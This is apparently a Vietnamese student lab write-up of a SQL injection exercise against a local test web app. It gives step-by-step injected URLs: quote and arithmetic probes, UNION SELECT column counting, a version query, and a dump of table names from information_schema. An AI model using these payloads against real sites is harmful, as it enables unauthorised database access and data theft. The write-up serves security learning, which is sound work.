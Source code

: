 ### Người thực hiện: Trần Ngọc Nam
### Thời gian thực hiện: 30/03/2022

# Cách làm:
- Check xem web có bị lỗi sql injection không? SQL có 2 dạng để check: dựa trên số(?id=1) hoặc dạng chuỗi(string). Nhưng dựa theo cấu trúc web nên ta chọn check theo id.
  - Đầu tiên, ta thử chèn dấu ' vào http://192.168.216.129/cat.php?id=1
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=1'

    Kết quả trả về:
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
  ```
  - Điều này chưa kết luận được web có lỗi sql injection không. Nên ta tiếp thực thử truyền phép tính vào url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=2-1
  ```
  - Kết quả trả về là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web có thể lỗi sql injection.
  - Ta thực hiện thêm 1 lần truyền phép tính vào thanh url
  ```php
    Thanh URL sẽ có dạng: http://192.168.216.129/cat.php?id=3-2
  ```
  - Kết quả trả về vẫn là trang http://192.168.216.129/cat.php?id=1. Chứng tỏ web đã lỗi sql injection.

- Tiếp theo, ta check số cột của database bằng toán tử union. Ta check số lượng từ 1 và tăng dần
  ```php
    http://192.168.216.129/cat.php?id=1 union select 1
    http://192.168.216.129/cat.php?id=1 union select 1,2
    http://192.168.216.129/cat.php?id=1 union select 1,2,3
    http://192.168.216.129/cat.php?id=1 union select 1,2,3,4
  ```
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
- Ta nhận thấy số cột là 4 khi thử đến lần thứ 4 trang web trả về tất cả iteam trong trang web
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,@@version,3,4

  Kết quả trả về: 5.1.63-0+squeeze1
  ```
- Tiếp theo, ta check tên các table có trong database
  ```php
  http://192.168.216.129/cat.php?id=1 union select 1,table_name,3,4 from information_schema.tables
  ``` 
- Kết quả trả về gồm rất nhiều table như sau:
| No. | Table name                                     |
| --- | ---------------------------------------------- |
| 1   | picture: ruby                                  |
| 2   | picture: cthulhu                               |
| 3   | picture: character_sets                        |
| 4   | picture: collations                            |
| 5   | picture: collation_character_set_applicability |
| 6   | picture: columns                               |
| 7   | picture: column_privileges                     |
| 8   | picture: engines                               |
| 9   | picture: events                                |
| 10  | picture: files                                 |
| 11  | picture: global_status                         |
| 12  | picture: global_variables                      |
| 13  | picture: key_column_usage                      |
| 14  | picture: partitions                            |
| 15  | picture: plugins                               |
| 16  | picture: processlist                           |
| 17  | picture: profiling                             |
| 18  | picture: referential_constraints               |
| 19  | picture: routines                              |
| 20  | picture: schemata                              |
| 21  | picture: schema_privileges                     |
| 22  | picture: session_status                        |
| 23  | picture: session_variables                     |
| 24  | picture: statistics                            |
| 25  | picture: tables                                |
| 26  | picture: table_constraints                     |
| 27  | picture: table_privileges                      |
| 28  | picture: triggers                              |
| 29  | picture: user_privileges                       |
| 30  | picture: views                                 |
| 31  | picture: categories                            |
| 32  | picture: pictures                              |
| 33  | picture: users                                 |